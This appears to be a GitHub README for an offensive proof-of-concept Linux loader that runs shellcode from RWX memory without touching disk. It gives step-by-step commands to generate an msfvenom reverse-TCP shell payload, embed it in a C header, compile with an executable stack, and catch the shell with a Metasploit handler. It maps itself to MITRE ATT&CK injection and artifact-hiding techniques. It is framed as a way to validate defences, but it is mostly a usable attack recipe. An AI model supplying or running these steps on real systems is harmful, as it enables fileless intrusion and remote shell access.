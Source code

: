 # In-Memory Shellcode Detonator

A minimalist Linux x86_64 loader that allocates RWX memory and executes raw shellcode entirely in memory, no disk artifacts, no staging files.

---

## Executive Overview

**Objectives & Use Cases**  
- Deliver a compact, single-stage loader for in-memory shellcode detonation.  
- Validate defensive controls by demonstrating pure in-memory detonation techniques.

---

## Technical Details

**Core Features**  
- Memory Allocation (`mmap`): requests a private, anonymous RWX region for payload staging.  
- Payload Injection: copies raw shellcode from a generated header (`shellcode.h`) into the allocated buffer.  
- Direct Execution: casts buffer to a function pointer and transfers execution to shellcode.  
- Minimal Syscalls: only `mmap`, `memcpy`, and invocation, no dynamic linking beyond standard C library.

**Internal Components**  
```
├── shellcode_injector.c   – PoC stub loader (allocates, injects, executes)
├── shellcode             – raw shellcode (generated by msfvenom)
├── shellcode.h           – xxd-generated C header with byte array
└── linux_in-memory_shellcode-detonation_PoC  – compiled binary
```

**Supported Platforms**  
- Linux x86_64 (glibc ≥ 2.17)  
- Tested on Kali Linux 6.x kernel

---

## Installation & Usage

### Prerequisites
- **Build Tools**: `gcc` with C11 support, `make` (optional)  
- **Payload Generator**: `msfvenom` from Metasploit Framework  
- **Payload Conversion**: `xxd` to generate `shellcode.h` from raw bytes  
- **Permissions**: ability to allocate RWX pages (no restrictive SELinux/AppArmor policies)

### Build Steps

1. **Generate Raw Shellcode**  
   ```bash
   msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1337 -f raw -o shellcode
   ```
2. **Convert to Header**  
   ```bash
   xxd -i shellcode > shellcode.h
   ```
3. **Compile Loader**  
   ```bash
   gcc -std=c11 -Wall -Wextra -z execstack shellcode_injector.c -o linux_in-memory_shellcode-detonation_PoC
   ```

### Execution Examples

- **Start Listener**  
  ```bash
  msfconsole -q -x "use exploit/multi/handler; set PAYLOAD linux/x64/shell_reverse_tcp; set LHOST 127.0.0.1; set LPORT 1337; set EXITONSESSION false; exploit -j"
  ```

- **Detonate Payload**  
  ```bash
  ./linux_in-memory_shellcode-detonation_PoC
  ```

---

## References

- Linux `mmap(2)` manual: https://man7.org/linux/man-pages/man2/mmap.2.html  
- msfvenom documentation: https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit-Framework  
- xxd(1) manual (hex dump utility): https://linux.die.net/man/1/xxd  
- Executable space protection (NX bit) – https://en.wikipedia.org/wiki/Executable_space_protection  
- MITRE ATT&CK T1055 – Process Injection  - https://attack.mitre.org/techniques/T1055/
- MITRE ATT&CK T1564 – Hide Artifacts  - https://attack.mitre.org/techniques/T1564/

